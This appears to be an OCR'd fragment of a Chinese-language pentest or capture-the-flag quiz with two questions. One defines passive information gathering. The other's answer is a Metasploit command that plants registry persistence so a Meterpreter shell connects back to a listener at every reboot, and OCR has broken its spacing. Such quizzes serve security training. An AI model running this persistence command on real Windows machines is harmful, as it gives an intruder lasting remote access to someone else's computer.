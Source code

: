**无声的样子:**

```
Gathering as much information as possible without establishing contact between the pen tester and the target which you are collecting information.
```

回答:被动的信息收集

**坚持**

```
You want to achieve persistence using Meterpreter’s persistence module by creating an autorun registry file and getting a shell automatically every time the user restarts the PC

Persistence options 

    Minutes after restarting the system: 7 
    Your Local port: 1337
    Your local host IP: 192.168.0.177

Flag format is: xxx xxxxxxx/xxxxxxx/xxxxx/xxxxxxxx_xxxxxxxxxxx xxxxx_xxxx=xxx  xxxxx=xxxx xxxxx=xxx.xxx.x.xxx
```

答案:运行 exploit/windows/local/registry _ persistence SLEEP _ TIME = 420 LPORT = 1337 LHOST = 192 . 168 . 0 . 177